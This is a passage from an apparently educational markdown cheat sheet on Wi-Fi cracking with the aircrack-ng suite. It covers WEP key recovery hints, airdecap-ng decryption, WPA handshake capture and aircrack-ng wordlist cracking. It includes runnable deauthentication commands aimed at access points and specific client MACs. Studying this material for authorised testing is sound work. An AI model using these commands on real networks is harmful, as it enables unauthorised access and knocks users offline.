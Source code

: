 ##### Important Information :

- You'll need **at least a few thousand IVs**. For 64-bit WEP: ~10,000+ IVs; for 128-bit WEP: 100,000+ IVs is common.

- If it says “**KEY NOT FOUND**,” keep capturing more packets.

### 🎉 Airdecap-ng [Using the found key]

Airdecap-ng is useful after we have successfully retrieved the key
to a wireless network. We can use it to decrypt WEP, WPA PSK, or WPA2
PSK capture files.

<u>Description:</u>

With airdecap-ng you can decrypt WEP/WPA/WPA2 capture files. As well, 
it can also be used to strip the wireless headers from an unencrypted 
wireless capture.

It outputs a new file ending with “-dec.cap” which is the decrypted/stripped version of the input file.

* The following removes the wireless headers from an open network (no WEP) capture:

`airdecap-ng -b 00:09:5B:10:BC:5A open-network.cap`

* The following decrypts a WEP-encrypted capture using a hexadecimal WEP key:

`airdecap-ng -w 11A3E229084349BC25D97E2939 wep.cap`

* The following decrypts a WPA/WPA2 encrypted capture using the passphrase:

`airdecap-ng -e 'the ssid' -p passphrase  tkip.cap`

---

## 🔓 4. WPA/WPA2 Handshake Capture

While performing the WEP attack capture must be running. 

```bash
# Capture WPA handshake in pcap
airodump-ng -c <channel> --bssid <BSSID> -w handshake wlan0mon
airodump-ng wlan0 -c 6 --bssid 6E:89:D4:EC:34:37 -w ./wireless_cap/testing_my_knowledge  

# Deauth clients to force handshake [Note this is to target the AP]
aireplay-ng -0 10 -a <BSSID> wlan0mon

# Deauth clients to force handshake [Note this is to target the Devices connecting to the AP]
aireplay-ng -0 1 -a 6E:89:D4:EC:34:37 -c D6:58:91:1E:59:C5 wlan0
```

---

### Crack WPA/WPA2 (PSK)

```bash
# Aircrack with wordlist and John
aircrack-ng -w <wordlist.txt> -b <BSSID> handshake.cap

aircrack-ng -w /usr/share/john/password.lst -e wifu
-b 34:08:04:09:3D:38 wpa-01.cap
```
